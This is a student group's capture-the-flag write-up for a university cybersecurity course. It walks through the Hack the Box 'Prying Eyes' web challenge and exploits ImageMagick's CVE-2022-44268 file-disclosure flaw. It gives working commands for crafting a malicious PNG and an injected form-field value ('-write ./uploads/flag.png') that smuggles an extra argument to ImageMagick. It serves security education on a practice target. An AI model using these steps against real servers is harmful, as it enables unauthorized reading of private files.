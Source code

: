 ## CSCE 5552: Final Project

**CSCE 5552: Cybersecurity Essentials**

**Group 7**

**Hack the Box:** Prying Eyes (Medium)

https://app.hackthebox.com/challenges/459

**Challenge Description:** Welcome to the Prying Eyes, a "safe space" for those curious about the large organisations that dominate our life. How safe is the site really?

This final project involved capturing the flag for the Hack the Box Prying Eyes web box. Our process of investigation involved reconnaissance, analyzing source files, and researching possible vulnerabilities. Upon initial inspection, the site is identified as using HTTP, having user registration and login, and the ability to upload image files. The user registration and login became a possible point to exploit a SQL injection attack and gain access to database credentials. Subsequent access to the database could lead to system access that allows the flag to be captured. Another possible idea involved using a payload to exploit the file upload feature. 

## Reconnaissance:
Our group began by scanning for open ports and web application vulnerabilities. We utilized scanning tools, including nmap and Nessus, to further understand the web server. The nmap command only returned port 22 SSH. The Nessus vulnerability scanner only found that the web server was running on HTTP instead of HTTPS.

## Analyzing Source Files:
Our group's next step involved analyzing the source files that are available to download with the box. Within these javascript, dockerfile, and html files, we discovered multiple different tools and systems used by the web server as well as database credentials. This included sqlite and ImageMagick version 7.1.0-33.

## Researching Possible Vulnerabilities:
Keeping the gathered information in mind, our team began by attempting both basic and advanced SQL injection attacks through manual injection and by using the Hydra tool. After no luck with this type of attack, the version of ImageMagick was researched for possible vulnerabilities. The CVE-2022-44268 vulnerability was discovered (https://nvd.nist.gov/vuln/detail/CVE-2022-44268). This vulnerability allows for the disclosure of information to be embedded into a PNG file.

## Process of Capturing the Flag:
The steps taken to capture the flag include creating the malicious PNG file, uploading the malicious file to the website, altering the POST request, and retrieving the flag from the returned image file. In order to generate the malicious PNG file, the ImageMagick Arbitrary File Disclosure (CVE-2022-44268) tool by vulhub (https://github.com/vulhub/vulhub/tree/master/imagemagick/CVE-2022-44268) was used. 

Generate the malicious PNG that points to the flag.txt file within the working directory:
```
sudo python3 ./poc.py generate -o evil.png -r /home/node/app/flag.txt
```

Verify the **tEXt** chunk is set to **profile./home/node/app/flag.txt**:
```
exiv2 -pS evil.png
```
![image](https://github.com/daniellemonika/CSCE-5552-Prying-Eyes/assets/64706142/cde71d41-d5c9-469e-b48a-91820b89f62b)


**After the file was generated, Burp Suite was used to modify the POST request.**

Open Burp Suite in Kali:
```
burpsuite
```

Under 'Proxy', make sure 'Intercept is on' is selected. Then click 'Open browser' to launch the Chromium browser. Navigate to the website _(IP:Port)_ provided through Hack the Box within the Chromium browser, register if an account has not already been created, and login to an account. While intercept is turned on within Burp Suite, the user will need to 'Forward' all requests and responses. Once logged in, create a new post or comment on an existing post.

![image](https://github.com/daniellemonika/CSCE-5552-Prying-Eyes/assets/64706142/c41b3cee-bcc4-469a-b9a6-b873c2abe831)

Modify the POST request to include another parameter, "Background", and alter the value to write to the /uploads directory:
```
Content-Disposition: form-data; name="background"

green -write ./uploads/flag.png
```

![image](https://github.com/daniellemonika/CSCE-5552-Prying-Eyes/assets/64706142/e75bd378-f678-4493-8776-1bcf0754c032)

Navigate to the newly written file by going to file location within a browser:
```
http:://IP:Port/uploads/flag.png
```

The image that was uploaded should be shown on the flag.png page. Right-click and download this flie.

Convert the flag.AVIF file from AVIF to PNG:
```
convert flag.AVIF flag.png
```

Extract the metadata from the PNG file:
```
exiftool -b flag.png
```

Copy the long string hex code returned by the extraction into a hex to string calculator _(such as https://cyberchef.org/#recipe=From_Hex('Auto'))_

## Risks of this Vulnerability:
This information disclosure vulnerability can allow for unauthorized access to data and a loss of confidentiality. If a threat actor gains unauthorized access to sensitive data, it may lead to financial and reputational losses.

## Prevention of this Vulnerability:
The CVE-2022-44268 vulnerability can be mitigated against by regular patching and updating of web application tools. Using versions with known vulnerabilities may leave systems open to being exploited.
